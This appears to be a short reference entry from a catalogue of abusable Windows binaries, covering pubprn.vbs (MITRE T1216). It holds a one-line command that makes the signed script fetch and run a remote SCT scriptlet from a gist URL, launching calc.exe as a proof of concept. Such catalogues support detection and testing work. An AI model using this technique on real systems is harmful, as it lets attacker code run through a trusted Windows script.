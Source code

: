 ## Pubprn.vbs
```

pubprn.vbs 127.0.0.1 script:https://gist.githubusercontent.com/api0cradle/fb164762143b1ff4042d9c662171a568/raw/709aff66095b7f60e5d6f456a5e42021a95ca802/test.sct
Executes calc.exe from remote SCT.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: [T1216](https://attack.mitre.org/wiki/Technique/T1216)   
   
* Links:   
  * https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
  * https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
   
* File path:   
  * C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
  * C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
   
* Acknowledgement:   
  * Name: Matt Nelson
    * Twitter: [@enigma0x3](https://twitter.com/@enigma0x3)
    * Blog: https://enigma0x3.net
   
OS:  
